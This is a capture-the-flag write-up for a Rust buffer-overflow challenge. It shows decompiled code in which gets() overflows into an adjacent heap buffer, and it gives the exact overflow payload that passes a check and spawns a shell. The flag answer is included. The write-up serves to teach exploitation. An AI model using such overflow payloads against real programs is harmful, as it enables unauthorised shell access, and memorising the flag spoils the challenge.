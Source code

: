 > Good old buffer overflows in unsafe Rust
---

Load the binary into IDA, and look for the main function, for Rust it will be of the form name_bin::main::random_symb.

```c++
void rusty::main::hcc3567fa8916ea35()
{
  __int64 v0; // rax
  __int64 v1; // rbx
  __int64 v2; // rax
  __int64 v3; // r14

  _rust_alloc();
  if ( !v0 )
    alloc::alloc::handle_alloc_error::h52397d1f34536add();
  v1 = v0;
  *(_BYTE *)(v0 + 4) = 111;
  *(_DWORD *)v0 = 1819043144;
  _rust_alloc();
  if ( !v2 )
    alloc::alloc::handle_alloc_error::h52397d1f34536add();
  v3 = v2;
  *(_BYTE *)(v2 + 4) = 100;
  *(_DWORD *)v2 = 1819438935;
  gets(v1, 1LL);
  if ( !(*(_DWORD *)v3 ^ 0x72656854 | *(unsigned __int8 *)(v3 + 4) ^ 0x65) )
    system("/bin/sh");
  _rust_dealloc();
  _rust_dealloc();
}
```

We see that to call system("/bin/sh") we need to pass some check. When running in the debugger, we realize that v3 = "World". First "Worl" is xored with 0x72656854 and then "d" with 0x65. To pass the check we need to get **!(0 | 0)**. Since the xor is reversible, we just need to overwrite v3 with the value **0x6572656854** - "There". In the debugger we determine how many bytes must be written to reach v3 - 32 bytes. As a result, the program needs to pass the string:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAThere
```

---
> Flag: **TFCCTF{2be6854868e236fe09c2f94ca8018eaa507000239e9c4d6087d9e9c3c8c0719a}**